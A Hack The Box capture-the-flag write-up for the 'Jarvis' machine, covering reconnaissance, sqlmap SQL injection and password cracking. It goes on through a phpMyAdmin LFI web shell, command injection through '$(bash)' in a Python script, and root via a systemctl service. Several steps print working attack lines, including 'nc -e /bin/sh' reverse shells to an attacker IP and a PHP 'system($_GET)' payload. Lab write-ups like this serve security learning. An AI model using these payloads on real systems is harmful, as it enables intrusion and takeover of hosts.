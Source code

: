 ```yaml
---
"title": "Hack The Box - Jarvis"
"date": 2020-04-04
"tags": ["linux", "medium", "sudo", "setuid", "sqli", "phpmyadmin", "python"]
"keywords": ["linux", "medium", "sudo", "setuid", "sqli", "phpmyadmin", "python"]
"categories": ["HackTheBox OSCP-Like"]
"author": "Ghostbyt3"
"description": "We are going to pwn Jarvis from Hack The Box."
"featured_image": "/img/htb-jarvis/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-jarvis/1.png)

We are going to pwn Jarvis from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/194](https://www.hackthebox.eu/home/machines/profile/194)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 4.2 (94%), Linux 3.12 (93%), Linux 3.8 - 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

It looks like a normal webpage. So better we try bruteforcing the directories.[br/](br/)
![Untitled](/img/htb-jarvis/2.png)

Got some details on the bottom of the page.[br/](br/)
![Untitled](/img/htb-jarvis/3.png)

## Gobuster Result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/03 19:14:12 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/04/03 19:15:59 Finished
===============================================================
```

``/phpmyadmin``[br/](br/)
![Untitled](/img/htb-jarvis/4.png)
Tried with default credentials ``Username: root Password: [null]`` but failed so better we try to enumerate more.

In the webpage clicking on ``Rooms`` it redirects to ``rooms-suites.php`` and by clicking any of those rooms it redirects to ``/room.php`` with a parameter called cod that holds the room number.[br/](br/)
![Untitled](/img/htb-jarvis/5.png)

So I started SQLMAP with the url. There is some kind of filter which Ban us for 90 seconds.
![Untitled](/img/htb-jarvis/6.png)

>sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3

![Untitled](/img/htb-jarvis/7.png)
And it give me some payload. It Looks like SQL Injection using UNION is there.

### What is SQL Injection using UNION?
>When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database.

> sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3 --password

Got ``DBadmin`` hash.[br/](br/)
![Untitled](/img/htb-jarvis/9.png)

I cracked that using [CrackStation](https://crackstation.net/)[br/](br/)
![Untitled](/img/htb-jarvis/10.png)

``/phpmyadmin``[br/](br/)

``DBadmin:imissyou``[br/](br/)
![Untitled](/img/htb-jarvis/11.png)

Found Phpmyadmin's version so search for any exploit available.[br/](br/)
![Untitled](/img/htb-jarvis/12.png)

>[https://www.exploit-db.com/exploits/44928](https://www.exploit-db.com/exploits/44928)

According to the exploit we need to inject the payload in SQL Query.[br/](br/)
```select '[?php system($_GET["cmd"]);?](?php system($_GET["cmd"]);?)'```
![Untitled](/img/htb-jarvis/13.png)

![Untitled](/img/htb-jarvis/14.png)

Now we need to get the Session ID of phpMyAdmin.[br/](br/)
![Untitled](/img/htb-jarvis/15.png)

``http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_8271hfci8stuji9h69a2huedmt4dt75e&cmd=ls``
![Untitled](/img/htb-jarvis/16.png)

Its working lets try to get reverse shell!

## Shell as www-data

``nc -e /bin/sh 10.10.14.19 1234``

I got the shell as ``www-data``[br/](br/)
![Untitled](/img/htb-jarvis/17.png)


I started with ``sudo -l`` and looks like we can run ``simpler.py`` as pepper without password.
![Untitled](/img/htb-jarvis/18.png)

Lets see how ``simpler.py`` works[br/](br/)
```
python simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
```
While checking the python code, I found a Interesting thing:
```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It takes the input and ping the command we send and it also forbidden ``['&', ';', '-', '`', '||', '|']`` these symbols to prevent us to do some other commands.But they didn't filtered ``$``, we can use this by ``$(command)``. I did ``$(bash)`` and got the user ``pepper``.

```
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(bash)
127.0.0.1 $(bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper@jarvis:/var/www/Admin-Utilities$
pepper
```

## Privilege Escalation

Started my enumeration script and found there is a SUID binary.[br/](br/)
![Untitled](/img/htb-jarvis/19.png)

I checked [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), According to that we need to create a service that executes a file of our choice when it enables.
I created a service called ``test.service`` in my machine and uploaded that to the box.

``test.service``
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.19 5555"
[Install]
WantedBy=multi-user.target
```

Uploaded the script to the box and gave executable permission. Now we need to link the service first and then enable the service which executes it.[br/](br/)
![Untitled](/img/htb-jarvis/20.png)

Started my listener[br/](br/)
![Untitled](/img/htb-jarvis/21.png) [br/](br/)
I'm Root

